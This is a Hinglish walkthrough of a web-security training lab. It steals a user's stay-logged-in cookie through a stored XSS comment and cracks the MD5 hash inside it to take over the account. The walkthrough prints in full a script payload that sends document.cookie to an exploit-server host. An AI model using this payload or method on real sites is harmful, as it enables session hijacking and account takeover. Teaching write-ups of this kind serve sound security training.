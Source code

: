 # Offline Password Cracking
Is lab ka goal tha Carlos ka stay-logged-in cookie crack karna, jisme XSS aur offline hash cracking dono techniques use karni thi.

✅ Sabse pehle, maine apne credentials wiener:peter ke sath login kiya aur “Stay logged in” option tick kiya.
✅ Login ke baad, Burp Suite ke HTTP History tab me jaa kar cookie ka format dekha.
✅ Phir main ek blog post par gaya aur uske comment section me stored XSS payload inject kiya:

<script>document.location="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit"+document.cookie</script>
✅ Maine apna valid Exploit Server URL wahan daala, comment post kiya, aur phir Access log dekha.
✅ Wahan mujhe stay-logged-in cookie mila jo Base64 encoded tha, jaise:

Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
✅ Is cookie ko maine Burp Decoder me decode kiya to yeh mila:

carlos:26323c16d5f4dabff3bb136f2460a943
✅ Phir maine hash ko Crackstation.net me paste kiya, aur mil gaya password:

onceuponatime
✅ Finally, carlos user ke credentials se login kiya aur My Account section me jaa kar account delete kar diya.
🎯 Lab Solved!

## 💡 Techniques used:

- Stored Cross-Site Scripting (XSS) for cookie stealing

- Base64 decoding

- MD5 hash cracking (offline password attack) using online wordlists

- Cookie-based authentication bypass

Yeh real-world scenario un cases me use hota hai jab attacker XSS ke zariye kisi ka session hijack karein, ya phir insecurely hashed passwords ko crack kar ke unauthorized access lein.
